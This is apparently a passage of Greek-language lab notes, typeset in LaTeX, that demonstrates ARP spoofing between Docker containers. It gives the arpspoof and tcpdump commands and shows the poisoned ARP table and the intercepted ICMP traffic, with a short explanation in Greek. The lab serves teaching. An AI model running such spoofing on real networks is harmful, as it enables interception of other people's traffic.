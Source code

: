 \texttt{\textlatin{(vic0)\# apt install net-tools iproute2 iputils-ping}}

\texttt{\textlatin{...}}

\texttt{\textlatin{(host)\$ docker run --rm -it --name=victim1 -h victim1 ubuntu:latest /bin/bash}}

\texttt{\textlatin{(host)\$ docker run --rm -it --name=attacker -h attacker ubuntu:latest /bin/bash}}

\texttt{\textlatin{(atck)\# apt update}}

\texttt{\textlatin{...}}

\texttt{\textlatin{(atck)\# apt install dsniff net-tools iproute2 tcpdump}}

\texttt{\textlatin{...}}

\texttt{\textlatin{(atck)\# arpspoof -i eth0 -t 172.17.0.2 172.17.0.3}}

\texttt{\textlatin{...}}

\texttt{\textlatin{(vic0)\# arp}}

\texttt{\textlatin{arp}}

\texttt{\textlatin{172.17.0.3 ether 02:42:ac:11:00:04 C eth0}}

\texttt{\textlatin{...}}

\texttt{\textlatin{172.17.0.4 ether 02:42:ac:11:00:04 C eth0}}

\texttt{\textlatin{(vic0)\# ping 172.17.0.3}}

\texttt{\textlatin{...}}

\texttt{\textlatin{(atck)\# tcpdump -vni eth0 icmp}}

\texttt{\textlatin{...}}

\texttt{\textlatin{10:16:18.368351 IP (tos 0x0, ttl 63, id 52174, offset 0, flags [DF], proto ICMP (1), length 84) 172.17.0.2 > 172.17.0.3: ICMP echo request, id 898, seq 5, length 64}}

\texttt{\textlatin{10:16:18.368415 IP (tos 0x0, ttl 64, id 8188, offset 0, flags [none], proto ICMP (1), length 84) 172.17.0.3 > 172.17.0.2: ICMP echo reply, id 898, seq 5, length 64}}

\texttt{\textlatin{...}} \\

Αρχικά ξεκινάμε τρία κοντέινερ και εγκαθιστούμε τις εξαρτήσεις. Μετά ξεκινάμε
να δηλητηριάζουμε τον πίνακα \textlatin{ARP} του \textlatin{victim0}. Μπορούμε
να το παρατηρήσουμε αυτό κοιτάζοντας τον πίνακα \textlatin{ARP} του
\textlatin{victim0} (με την εντολή \textlatin{arp}). Βλέπουμε ότι οι εγγραφές
για 172.17.0.3 και 172.17.0.4 είναι όμοιες (\textlatin{02:42:ac:11:00:04}). Αν
εμείς στη συνέχεια αρχίσουμε να κάνουμε \textlatin{ping} από το
\textlatin{victim0} και κοιτάξουμε την κίνηση \textlatin{ICMP} του επιτιθέμενου,
βλέπουμε ότι τα πακέτα \textlatin{ICMP} δρομολογούνται μέσω του επιτιθέμενου.

